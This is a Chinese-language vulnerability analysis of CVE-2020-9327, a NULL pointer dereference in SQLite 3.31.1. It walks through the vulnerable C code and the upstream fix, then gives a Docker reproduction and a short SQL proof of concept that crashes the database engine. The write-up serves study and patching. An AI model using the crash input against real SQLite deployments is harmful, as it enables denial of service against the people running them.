


# CVE-2020-9327 CWE-476 SQLite DoS

## 漏洞背景

- **SQLite：** 一个轻量级的、嵌入式的关系型数据库管理系统，它不需要单独的服务器进程，也不需要复杂的配置。SQLite 直接在文件系统上存储数据，具有零配置、易于使用和适合小型应用的特点。它支持标准的 SQL 语句，提供良好的数据安全性，并且因其轻量级特性被广泛应用于桌面和移动应用开发中。
- **CWE-476：**NULL 指针解引用（NULL Pointer Dereference）是一种常见的程序错误，指的是程序试图访问一个值为 NULL 的指针所指向的内存地址。由于 NULL 指针不指向有效的内存区域，解引用它会导致程序崩溃、异常终止，甚至被攻击者利用造成拒绝服务（DoS）或执行任意代码。这个漏洞通常源于对指针使用前未进行空值检查，或者资源释放后错误地继续使用该指针。因此，在使用指针前应始终确保其不为 NULL，并在资源释放后将指针设置为 NULL 以避免悬空引用。

## 漏洞原理

在 SQLite 3.31.1 中，isAuxiliaryVtabOperator 允许攻击者由于生成的列优化而触发 NULL 指针取消引用和分段错误。

**CWE-476：NULL 指针解引用 --> 段错误 --> DoS**

## 漏洞定位

分析SQLite 3.31.1源码

在 src\whereexpr.c 文件第 371 行`isAuxiliaryVtabOperator`函数用于判断表达式 `pExpr` 是否是虚拟表操作符（如 `MATCH`、`LIKE`、`GLOB` 等）的特定形式，并进行相应处理。其中有如第 405、427行的判断语句。这段代码检查了 `pCol` 是否是一个虚拟表列，并且检查了虚拟表的存在性。但问题在于，如果 `pCol` 本身是 `NULL`，这一行代码会导致访问空指针，进而引发 **NULL 指针解引用** 错误。

```c
// whereexpr.c 371行
static int isAuxiliaryVtabOperator(
  sqlite3 *db,                    /* Parsing context */
  Expr *pExpr,                    /* Test this expression */
  unsigned char *peOp2,           /* OUT: 0 for MATCH, or else an op2 value */
  Expr **ppLeft,                  /* Column expression to left of MATCH/op2 */
  Expr **ppRight                  /* Expression to left of MATCH/op2 */
){
    // ...
    /* Built-in operators MATCH, GLOB, LIKE, and REGEXP attach to a
    ** virtual table on their second argument, which is the same as
    ** the left-hand side operand in their in-fix form.
    **
    **       vtab_column MATCH expression
    **       MATCH(expression,vtab_column)
    */
    pCol = pList->a[1].pExpr;
    if( pCol->op==TK_COLUMN && IsVirtual(pCol->y.pTab) ){
      for(i=0; i<ArraySize(aOp); i++){
        if( sqlite3StrICmp(pExpr->u.zToken, aOp[i].zOp)==0 ){
          *peOp2   = aOp[i].eOp2;           // 记录对应的 SQLITE_INDEX_CONSTRAINT_* 常量
          *ppRight = pList->a[0].pExpr;     // 把“表达式”给 ppRight
          *ppLeft  = pCol;                  // 把“虚表列”给 ppLeft
          return 1;                         // 匹配成功，返回 1
        }
      }
    }

    /* We can also match against the first column of overloaded
    ** functions where xFindFunction returns a value of at least
    ** SQLITE_INDEX_CONSTRAINT_FUNCTION.
    **
    **      OVERLOADED(vtab_column,expression)
    **
    ** Historically, xFindFunction expected to see lower-case function
    ** names.  But for this use case, xFindFunction is expected to deal
    ** with function names in an arbitrary case.
    */
    pCol = pList->a[0].pExpr;
    if( pCol->op==TK_COLUMN && IsVirtual(pCol->y.pTab) ){
      sqlite3_vtab *pVtab = sqlite3GetVTable(db, pCol->y.pTab)->pVtab;
      sqlite3_module *pMod = (sqlite3_module*)pVtab->pModule;
      if( pMod->xFindFunction!=0 ){
        i = pMod->xFindFunction(pVtab, 2, pExpr->u.zToken,
                                &xNotUsed, &pNotUsed);
        if( i>=SQLITE_INDEX_CONSTRAINT_FUNCTION ){
          *peOp2   = i;                  // 模块返回的自定义约束类型
          *ppRight = pList->a[1].pExpr;  // 另一参数当 right
          *ppLeft  = pCol;               // vtab 列当 left
          return 1;
        }
      }
    }
    // ...
}
```

## 漏洞修复


向 src/expr.c 文件添加新函数以检查给定表达式是否 `p` 是一个引用虚拟表格的列。

```c
/*
** Return true if p is a Column node that references a virtual table.
*/
int sqlite3ExprIsVtabRef(Expr *p){
  if( p->op!=TK_COLUMN ) return 0;
  if( p->y.pTab==0 ) return 0;
  return IsVirtual(p->y.pTab);
}
```

替换有问题的代码 `if( pCol->op==TK_COLUMN && IsVirtual(pCol->y.pTab) )` 与 `if( sqlite3ExprIsVtabRef(pCol) )` 来检查和处理虚拟表格列,确保输入是有效的。

## 影响版本


SQLite  3.31.1

## 环境搭建

启动 Docker，SQLite版本为 3.31.1



## 漏洞复现

1、进入容器，创建数据库 test_db。

```bash
docker exec -it sqlite-3.31.1 bash
sqlite3 test_db
```

2、创建表 `v0`，包含一个普通列 `v3` 和一个生成列 `v1`。生成列还带 `UNIQUE`约束，意味着列 `v1` 中的每个值必须是唯一的。`v1 AS (v1)` 实际上是自引用，会触发 SQLite 的解析器进入异常路径。

```sql
CREATE TABLE v0(v3, v1 AS(v1) UNIQUE);
```

3、创建一个正常的表`v5`，有两个唯一列 `v6`, `v7`

```sql
CREATE TABLE v5(v6 UNIQUE, v7 UNIQUE);
```

4、创建视图 `v8`，它选择了 `v0` 表中的 `v3` 和 `v1` 的 `COALESCE` 值，`COALESCE(v3, v1)` 会返回第一个非 NULL 的值。如果 `v3` 为 NULL，则使用 `v1` 的值。。

```sql
CREATE VIEW v8(v9) AS SELECT coalesce(v3, v1) FROM v0 WHERE v1 IN('MED BOX');
```

5、联结 `v8`（视图）和 `v5`（表），构造 WHERE 子句：

- `0 > v7`（数值比较）
- `AND v9`（视图字段，来自 `COALESCE(v3, v1)`）
- `OR v6 = 's%'`（模糊匹配）

可以看到 SQLite 出现段错误，代码崩溃。

```sql
SELECT *FROM v8 JOIN v5 WHERE 0 > v7 AND v9 OR v6 = 's%';
```



## PoC分析

```sql
CREATE TABLE v0(v3, v1 AS(v1) UNIQUE);
CREATE TABLE v5(v6 UNIQUE, v7 UNIQUE);
CREATE VIEW v8(v9) AS SELECT coalesce(v3, v1) FROM v0 WHERE v1 IN('MED BOX');
SELECT *FROM v8 JOIN v5 WHERE 0 > v7 AND v9 OR v6 = 's%';
```

`coalesce`会生成一个`TK_FUNCTION`节点，`a[0].pExpr`指向`v3`，`a[1].pExpr`指向`v1`，之后调用`isAuxiliaryVtabOperator`函数开始检查此函数调用能否当作虚拟表索引条件。但因为 `v1` 来自自引用生成列，其 `Expr` 结构并未正确初始化，所以`pCol` 本身是 `NULL`。执行 `pCol->op` 时就会直接触发 **NULL 解引用**，程序 Segmentation Fault。

**触发条件**：`TK_FUNCTION` 类型的表达式且参数列表中含有“无效”生成列 `v1`。

**函数盲点**：在两处都没有对 `pList->a[*].pExpr` （即 `pCol`）做非空判断。

**崩溃瞬间**：执行 `pCol->op` 时，`pCol` 或其字段为 NULL，触发 Segmentation Fault。

## 参考链接


[In SQLite 3.31.1, isAuxiliaryVtabOperator allows... · CVE-2020-9327 · GitHub Advisory Database](https://github.com/advisories/GHSA-43wf-f579-3w62)

[SQLite: View Ticket](https://sqlite.org/src/info/4374860b29383380)

